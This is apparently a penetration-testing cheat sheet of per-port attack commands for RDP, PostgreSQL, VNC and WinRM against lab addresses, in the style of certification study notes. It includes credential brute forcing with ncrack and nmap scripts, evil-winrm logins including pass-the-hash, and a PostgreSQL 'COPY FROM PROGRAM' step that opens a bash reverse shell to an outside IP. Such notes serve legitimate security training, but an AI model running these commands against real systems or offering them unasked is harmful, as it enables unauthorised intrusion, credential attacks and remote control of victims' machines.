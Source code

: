 ## Port 3339 - Oracle web interface


- Basic info about web service (apache, nginx, IIS)

## RDP - 3389

```
nmap -p 3389 --script=rdp-vuln-ms12-020.nse
rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.11.1.111
rdesktop -u guest -p guest 10.11.1.111 -g 94%
ncrack -vv --user Administrator -P /root/oscp/passwords.txt rdp://10.11.1.111
```

## PostgreSQL - 5432/5433
REF: Nibbles, Splodge

https://book.hacktricks.xyz/pentesting/pentesting-postgresql

https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection#rce-from-version-9.3

```
psql -U <myuser> # Open psql console with user
psql -h <host> -U <username> -d <database> # Remote connection
psql -h <host> -p <port> -U <username> -W <password> <database> # Remote connection

\list # List Databases
\c postgres # Connect to DB
\d <table> # List tables

Priv Esc via Postgres

CREATE TABLE cmd(cmd_output text); 
COPY cmd FROM PROGRAM 'bash -i >& /dev/tcp/192.168.49.114/80 0>&1'; 
```
## Erland Port Mapper - 4369
https://book.hacktricks.xyz/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd

## VNC - 5900

```
nmap --script=vnc-info,vnc-brute,vnc-title -p 5900 10.11.1.111
```

## WinRM - 5985

```
https://github.com/Hackplayers/evil-winrm
gem install evil-winrm
evil-winrm -i 10.11.1.111 -u Administrator -p 'password1'
evil-winrm -i 10.11.1.111 -u Administrator -H 'hash-pass' -s /scripts/folder
```
